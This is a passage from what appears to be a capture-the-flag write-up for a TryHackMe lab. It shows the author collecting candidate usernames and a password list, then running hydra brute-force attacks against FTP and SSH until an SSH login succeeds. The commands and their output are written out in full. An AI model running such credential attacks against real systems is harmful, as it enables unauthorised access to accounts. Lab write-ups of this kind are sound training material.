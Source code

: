 ```
r3ddr@g0N
ReDSynd1ca7e
```
So possibly a password file. Perhaps we could use our list of possible users?

The next file, task.txt.

```
~/CTF/tryhackme/bounty_hunter$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
OK from this nothing that jumps out, however we may have another possible user, which I will add to my list..

## hydra
Lets try ftp first and see if it gets us anywhere. I created a user list, taken from above as well as adding Lin, for simplicity in the attack.
```
/CTF/tryhackme/bounty_hunter$ hydra -L user_list.txt -P locks.txt ftp://$IP
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-07 08:56:41
[DATA] max 16 tasks per 1 server, overall 16 tasks, 182 login tries (l:7/p:26), ~12 tries per task
[DATA] attacking ftp://10.10.137.143:21/
1 of 1 target completed, 0 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-07 08:56:45
```
OK Nothing shown there. Lets try ssh
```
~/CTF/tryhackme/bounty_hunter$ hydra -t 20 -L user_list.txt -P locks.txt ssh://$IP
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-07 08:58:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 20 tasks per 1 server, overall 20 tasks, 182 login tries (l:7/p:26), ~10 tries per task
[DATA] attacking ssh://10.10.137.143:22/
[22][ssh] host: 10.10.137.143   login: lin   password: <insert-user-password-here>
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-07 08:58:47
```
Right, we have a successful user and password. Lets see what we get next.

## ssh
```
~/CTF/tryhackme/bounty_hunter$ ssh lin@$IP
The authenticity of host '10.10.137.143 (10.10.137.143)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.137.143' (ECDSA) to the list of known hosts.
lin@10.10.137.143's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
```
